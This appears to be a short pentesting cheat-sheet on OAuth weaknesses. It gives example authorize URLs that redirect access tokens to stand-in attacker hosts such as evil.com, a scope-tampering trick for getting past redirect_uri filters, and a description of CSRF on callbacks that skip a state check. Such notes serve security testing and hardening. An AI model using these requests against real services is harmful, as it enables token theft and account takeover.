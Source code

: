## Grabbing OAuth Token via redirect_uri

Redirect to a controlled domain to get the access token.

```
https://www.example.com/signin/authorize?[...]&redirect_uri=https://localhost.evil.com
```

OAuth implementations should never whitelist entire domains, only a few URLs so that “redirect_uri” can’t be pointed to an Open Redirect

Sometimes you need to change the scope to an invalid one to bypass a filter on redirect_uri:

```
https://www.example.com/admin/oauth/authorize?[...]&scope=a&redirect_uri=https://evil.com
```

## Cross-Site Request Forgery

Applications that do not check for a valid CSRF token in the OAuth callback are vulnerable. This can be exploited by initializing the OAuth flow and intercepting the callback ([https://example.com/callback?code=AUTHORIZATION_CODE)](https://example.com/callback?code=AUTHORIZATION_CODE%29). This URL can be used in CSRF attacks.

## Resources

| URL                                                                                                                                                                                                        |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| [https://book.hacktricks.xyz/pentesting-web/oauth-to-account-takeover](https://book.hacktricks.xyz/pentesting-web/oauth-to-account-takeover)                                                               |
| [https://labs.detectify.com/2022/07/06/account-hijacking-using-dirty-dancing-in-sign-in-oauth-flows/](https://labs.detectify.com/2022/07/06/account-hijacking-using-dirty-dancing-in-sign-in-oauth-flows/) |

## Mindmap
![[Pasted image 20241106095351.png]]